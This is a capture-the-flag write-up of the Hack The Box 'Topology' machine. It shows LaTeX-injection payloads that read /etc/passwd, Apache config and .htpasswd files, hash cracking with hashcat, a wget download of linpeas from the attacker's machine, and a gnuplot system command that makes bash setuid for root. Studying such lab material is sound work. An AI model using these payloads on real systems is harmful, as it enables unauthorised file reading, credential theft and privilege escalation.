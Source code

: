 # Topology

Created: July 6, 2023 11:20 PM
Tags: Easy, Latex

# Enumeration

## Network Enumeration

```bash
nmap -sCV 10.10.11.217
```

![Untitled](images/Untitled.png)

```bash
nmap -p- 10.10.11.217
```

![Untitled](images/Untitled%201.png)

⇒ Nothing out of the box

## Endpoint Enumeration

```bash
gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.10.11.217
```

![Untitled](images/Untitled%202.png)

⇒ Nothing interesting here

## Page Source code

Found a sub-domain:

- latex.topology.htb (http://latex.topology.htb/equation.php)

![Untitled](images/Untitled%203.png)

## latex.topology.htb

![Untitled](images/Untitled%204.png)

The Generate input seems like a good entry point. I input `hello world` to test the behavior:

![Untitled](images/Untitled%205.png)

It generates an image containing the provided text.

![Untitled](images/Untitled%206.png)

One noticeable thing is the url that looks promising for automation purposes.

![Untitled](images/Untitled%207.png)

## Latex Exploitation

→ Based on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) database we can generate a list of payloads that we will try with the help of burpsuite:

```bash
\input{/etc/passwd}
```

![Untitled](images/Untitled%208.png)

![Untitled](images/Untitled%209.png)

With [script.py](http://script.py) I can get the runned file and understand how it works.

→ Escape the math section defined by `$` and then used the imported package `listings` that i can find in `header.tex` file

![Untitled](images/Untitled%2010.png)

→ From this i can build my payload to collect a file such as the source php of the current page `equation.php` 

```bash
 $ \lstinputlisting{../equation.php} $ 
```

⚠️ Don’t forget to add a space before the first $ and after the last one to recreate math section defined by 2 $ and a space in between.

![Untitled](images/Untitled%2011.png)

→ From this file content we can clearly see the filtering that is done:

![Untitled](images/Untitled%2012.png)

- As the web app is running on an Apache2 web serveur i’ll try to collect the default conf file:

```bash
 $ \lstinputlisting{/etc/apache2/sites-enabled/000-default.conf} $ 
```

![Untitled](images/Untitled%2013.png)

→ We notice 2 new sub-domains `dev.topology.htb` and `stats.topology.htb`

## stats.topology.htb

![Untitled](images/Untitled%2014.png)

→ A web page with not much but we can access it.

## dev.topology.stats

![Untitled](images/Untitled%2015.png)

→ As we can see we have an apache login alert. We should consider looking for a `.htaccess` file which should contain the hashes of the users who can login.

Thanks to `/etc/apache2/sites-enables/000-default.conf` file we know the directory where the dev app is stored: `/var/www/dev` . We can use our initial LFI to gather the `/var/www/dev/.htpasswd` file.

```bash
$ \lstinputlisting{/var/www/dev/.htpasswd} $

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

![Untitled](images/Untitled%2016.png)

→ We can use `hashcat` to crack this hash. To do so:

- store the hash in a txt file in this format:

```bash
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

- run the following hashcat command:

```bash
hashcat -o cracked.txt --hash-type 1600 --attack-mode 0 hash.txt rockyou.txt
```

- finally print the result that’s stored in the cracked.txt file:

```bash
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
```

→ We have our first user password combination `vdaisley:calculus20`

We can now access the dev page using these credentials

![Untitled](images/Untitled%2017.png)

# Initial Access

Using our first credentials we can get our initial access to the box through ssh

```bash
ssh vdaisly@topology.htb
```

And collect the first flag in the user.txt file

```bash
d359b01a0d941b62e5cc075c8b5e5cc5
```

## Discovery

In order to find a privilege escalation path we first need to perform we discovery on the host. As we know that we are on a linux host we use the linpeas utility to automate that. You can find the script in this webpage: [https://linpeas.sh/](https://linpeas.sh/)

To upload the file first store it on your attack machine and start a basic web sever in the same directory using the following command:

```bash
python -m http.server 8000
```

We can now download it on the target host using wget where ATTACK_IP is your attack machine IP in HTB network:

```bash
wget <ATTACK_IP>:8000/linpeas.sh
```

We can now launch this script by first giving it execution permissions

```bash
chmod +x linpeas.sh
./linpeas.sh
```

## Psypy

![pspy.png](images/pspy.png)

As we can see from pspy a process is running the gnuplot on all the `.plt` file in `/opt/gnuplot` and we have a write access in this directory. Therefore if we can make gnuplot run some shell commands we can gain acces to the user that executes this command in the background.

From the gnuplot doc we can find the `system`command that allows to run shell commands on the host. To poc I’ll try to create a file /tmp using the different approaches given to us by the doc and as we can see they all work.

[http://gnuplot.info/docs_5.5/loc18134.html](http://gnuplot.info/docs_5.5/loc18134.html)

```bash
system "touch /tmp/touch"
! touch /tmp/touch2
output = system("touch /tmp/touch3")
show variable GPVAL_SYSTEM
```

![Untitled](images/Untitled%2018.png)

# Privilege Escalation

We can now build a script to elevate our privileges for exemple by putting the suid privileges to the bash binary in order to be able to run it afterwards and gain a acces to user running the gnuplot command:

```bash
system "chmod 4755 /usr/bin/bash"
```

![Untitled](images/Untitled%2019.png)

Finally as we can see here the gnuplot command was run by the root user therefore we gain access to that user and we can finish the box by printing the root flag

![Untitled](images/Untitled%2020.png)

![Untitled](images/Untitled%2021.png)

```bash
85376f198c0f66caa166fa0cba0fef00
```